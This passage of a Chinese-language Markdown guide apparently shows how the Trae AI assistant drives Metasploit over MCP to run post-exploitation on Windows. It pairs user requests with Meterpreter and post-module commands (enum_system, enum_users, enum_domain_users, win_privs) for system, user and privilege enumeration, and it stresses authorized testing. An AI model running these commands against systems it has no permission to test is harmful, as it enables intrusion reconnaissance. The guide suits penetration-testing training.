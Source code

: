# 後滲透範例 - Trae AI + Metasploit MCP

本文檔展示如何透過 Trae AI 使用 Metasploit 的 post 模組進行後滲透活動和系統信息收集。

⚠️ **重要提醒：所有操作僅限於授權的滲透測試環境中使用**

## 前置條件

- 已獲得目標系統的 Meterpreter session
- 確保 session 處於活躍狀態
- 根據目標系統選擇適當的 post 模組

## Windows 系統後滲透

### 1. 系統信息收集

**用戶提問：**
```
收集 Windows 目標系統的詳細信息
```

**Trae AI 操作流程：**
```
# 進入 Meterpreter session
sessions -i 1

# 基本系統信息
sysinfo
getuid

# 使用 post 模組收集詳細信息
background
use post/windows/gather/enum_system
set SESSION 1
run
```

**預期結果：**
- 操作系統版本和架構
- 系統補丁級別
- 硬件配置信息
- 網絡配置詳情
- 安裝的軟件列表

### 2. 用戶和權限枚舉

**用戶提問：**
```
枚舉目標系統的用戶賬戶和權限信息
```

**Trae AI 操作流程：**
```
# 枚舉本地用戶
use post/windows/gather/enum_users
set SESSION 1
run

# 枚舉域用戶（如果在域環境中）
use post/windows/gather/enum_domain_users
set SESSION 1
run

# 檢查當前用戶權限
use post/windows/gather/win_privs
```